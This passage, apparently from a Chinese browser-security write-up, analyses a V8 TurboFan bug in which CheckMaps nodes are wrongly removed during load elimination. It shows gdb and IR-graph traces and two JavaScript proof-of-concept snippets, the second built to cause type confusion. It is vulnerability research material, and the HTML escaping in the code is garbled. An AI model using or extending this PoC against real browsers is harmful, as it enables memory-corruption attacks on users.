 其中为了防止`opt`函数被直接内联到for语句里，我们在里面增加了一句`var y = new Array(0x10);`，在代码里，按理来说，`var x = obj_dict.a;`和`return obj_dict.a;`都应该有一个`checkmaps`节点用于进行类型检查。我们还需要先弄清楚`RedundancyElimination::ReduceCheckNode`函数调用者是来自哪里，因此，我们在该函数下断点，然后用gdb调试。

[![](https://p2.ssl.qhimg.com/t01796899183ce73a87.png)](https://p2.ssl.qhimg.com/t01796899183ce73a87.png)

最终发现，该阶段发生在`LoadEliminationPhase`阶段。接下来，结合IR图来进行验证，运行d8时加入选项`--trace-turbo`。<br>
在`Loops peeled 95`阶段，43这个节点`checkmaps`还存在

[![](https://p3.ssl.qhimg.com/t01d243e7edf66bcbef.png)](https://p3.ssl.qhimg.com/t01d243e7edf66bcbef.png)

然后到了下一个阶段，也就是`Load eliminated 95`阶段，43节点的`checkmaps`被reduce了

[![](https://p0.ssl.qhimg.com/t01f36e299696693dff.png)](https://p0.ssl.qhimg.com/t01f36e299696693dff.png)

如果把patch去掉，发现在`Load eliminated 95`阶段是不会把`checkmaps`给去掉的

[![](https://p4.ssl.qhimg.com/t013090cd7c00ea247f.png)](https://p4.ssl.qhimg.com/t013090cd7c00ea247f.png)

根据上述结论，我们进一步构造

```
var dict = `{`a:1.1`}`;
function opt(obj_dict) `{`
   var x = obj_dict.a;
   obj_dict.a = `{``}`;
   var y = new Array(0x10);
   return obj_dict.a;
`}`

for (var i=0;i&lt;0x20000;i++) `{`
   opt(dict,(o)=&gt;1);
`}`

print(opt(dict));
```

发现没有发生类型混淆，生成IR图进行观察,最后发现

[![](https://p3.ssl.qhimg.com/t01e309d64c7cefe1eb.png)](https://p3.ssl.qhimg.com/t01e309d64c7cefe1eb.png)

最后发现`return obj_dict.a;`已经是按照对待`HOLEY_ELEMENTS`类型的方式将值取出的方式。由此，我们考虑加一个函数调用，使得字典对象逃逸，这样由于`return obj_dict.a;`的checkmaps在`Load eliminated 95`阶段会被移除，而`Escape Analyse`阶段在`Load eliminated 95`阶段之后，那么就可以造成类型混淆

```
var dict = `{`a:1.1`}`;
function opt(obj_dict,o) `{`
   var x = obj_dict.a;
   o(obj_dict);
   return obj_dict.a;
`}`

for (var i=0;i&lt;0x20000;i++) `{`
   opt(dict,(o)=&gt;i);
`}`

print(opt(dict,(o)=&gt;`{`o.a = dict`}`));
```
